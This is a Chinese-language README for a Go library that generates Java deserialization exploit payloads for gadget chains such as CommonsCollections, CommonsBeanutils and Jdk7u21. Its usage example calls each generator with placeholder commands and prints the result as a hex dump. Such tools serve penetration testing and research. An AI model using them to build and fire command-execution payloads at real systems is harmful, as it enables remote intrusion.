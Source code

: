 ![](https://socialify.git.ci/nu1r/GlangYsoserial/image?font=Inter&language=1&logo=https%3A%2F%2Fs1.ax1x.com%2F2022%2F09%2F12%2FvXqOUI.jpg&name=1&owner=1&pattern=Circuit%20Board&theme=Light)

当用GO写JAVA反序列化EXP的时候, 每次都要重写生成,调用不方便时, 可以使用本库

使用方法示例
```go
package main

import (
	"encoding/hex"
	"fmt"
    "github.com/nu1r/GlangYsoserial"
)

func main() {
    // 如果你需要使用使用 TemplatesImpl 类实现的Gadget, 但是又懒得去JAVA实现后输出，可以调用 TemplatesImpl 函数的返回值作为参数
    fmt.Println(hex.Dump(ysoserial.TemplatesImpl("example command")))
	fmt.Println(hex.Dump(ysoserial.URLDNS("example domain")))
	fmt.Println(hex.Dump(ysoserial.CommonsBeanutils1([]byte("example bytes"))))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections1("example command")))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections2([]byte("example bytes"))))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections3([]byte("example bytes"))))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections4([]byte("example bytes"))))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections5("example command")))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections6("example command")))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections7("example command")))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections8([]byte("example bytes"))))
	fmt.Println(hex.Dump(ysoserial.CommonsCollections9("example command")))
	fmt.Println(hex.Dump(ysoserial.Jdk7u21([]byte("example bytes"))))
	fmt.Println(hex.Dump(ysoserial.Jdk8u20([]byte("example bytes"))))
}

```

- TODO:
  - 1、补链子